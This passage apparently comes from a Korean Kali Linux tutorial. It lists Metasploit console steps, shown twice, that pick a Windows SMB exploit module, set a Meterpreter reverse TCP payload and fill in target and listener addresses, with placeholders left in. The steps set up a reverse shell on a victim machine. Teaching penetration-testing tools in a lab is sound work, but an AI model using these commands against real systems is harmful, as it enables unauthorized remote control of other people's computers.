 		- `exploit` <br><img src="/assets/img/칼리설치23.png" style="float: left; margin: 0 10px 10px 0; width: 400px;">
		- `msfconsole` → `use exploit/windows/smb/[취약점 코드]`
		- `set payload windows/meterpreter/reverse_tcp`
		- `set rhost [ip address]`
		- `set lhost [ip address]`
		- `set lport [port]`
		- `exploit`<br><img src="/assets/img/칼리설치24.png" style="float: left; margin: 0 10px 10px 0; width: 400px;">
		- `msfconsole` → `use exploit/windows/smb/[취약점 코드]`
		- `set payload windows/meterpreter/reverse_tcp`
		- `set rhost [ip address]`
		- `set lhost [ip address]`
		- `set lport [port]`